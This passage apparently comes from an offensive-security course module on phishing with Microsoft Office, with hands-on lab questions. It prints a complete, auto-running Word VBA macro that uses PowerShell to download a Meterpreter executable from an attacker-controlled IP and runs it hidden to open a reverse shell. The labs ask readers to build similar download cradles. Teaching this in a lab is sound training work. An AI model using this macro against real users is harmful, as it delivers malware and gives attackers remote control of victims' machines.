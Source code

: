 ```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path & "\" & "msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

> Listing 12 - Complete VBA macro to download Meterpreter executable and execute it

Let's review what we did. We built a Word document. When the document is opened, and macros are enabled, our code pulls the Meterpreter executable from our web server. We added a small time delay to allow the file to completely download. Finally, we executed our payload (which is hidden from the user) which results in a reverse Meterpreter shell.

### Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Phishing with Microsoft Office - VM #3

**Labs**

1. In PowerShell on Windows 11, which PowerShell cmdlet is invoked when the commonly-used Linux command curl is invoked?
2. We can also use the PowerShell [_Invoke-WebRequest_](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.4) cmdlet to download a file from a web server in a simple one-liner. Develop a download cradle inside a Word macro using Invoke-WebRequest. What is the name of the parameter that stores the file?
